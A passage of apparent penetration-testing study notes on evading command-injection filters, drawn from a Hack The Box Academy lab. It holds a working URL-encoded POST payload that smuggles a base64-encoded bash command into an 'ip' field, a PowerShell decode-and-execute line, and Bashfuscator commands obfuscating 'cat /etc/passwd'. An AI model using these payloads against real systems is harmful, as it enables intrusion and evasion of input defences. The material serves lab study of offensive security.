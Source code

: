 >iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
>```
>>[!exploit]- Example (Hack The Box Academy)
>>The vulnerable input:
>>
>>![[Images/Pasted image 20250507055758.png]]
>>
>>The malicious POST payload:
>>```powershell
>>ip=127.0.0.1%0a%09bash%09-c%09"$(base64%09-d%09<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)"
>>```
>>Which decodes to:
>>```powershell
>>ip=127.0.0.1
>>	bash -c "$(base64 -d <<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)"
>>```
>>
>>![[Images/Pasted image 20250507055858.png]]
>>
>>`ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=` is base64 encoded for `find /usr/share/ | grep root | grep mysql | tail -n 1`. This encoded string gets passed to the `base64 -d` command (`<<<`), and then the decoded string is executed by bash (`bash -c "$(...)"`). The injection is afforded via the `%0a` new-line character followed by the `%09` space character.

>[!code]- Alternative commands
>- base64 | openssl
>- bash | sh
###### Auto-evasion tools

>[!code]- Bashfuscator (Linux)
>###### Setup
>```powershell
>git clone https://github.com/Bashfuscator/Bashfuscator
>cd Bashfuscator
>pip3 install setuptools\==65
>python3 setup.py install --user
>
>cd ./bashfuscator/bin/
>```
>
>###### Use
>```powershell
>./bashfuscator -c 'cat /etc/passwd' # randomly pick an obsfucation technique (which could pick a technique that results in an output of over a million characters...)
>
># -s 1 (number of encoding stages)
># -t 1 (technique level - 1 is basic)
># --no-mangling (do not rename variables randomly / preserve readability)
># --layers 1 (apply 1 obsfucation layer)
>./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
>
># Stages = encoding the message multiple times (eg encode 3 times in base64)
># Layers = hiding the message inside multiple envelopes (eg a script inside a script etc)
>```
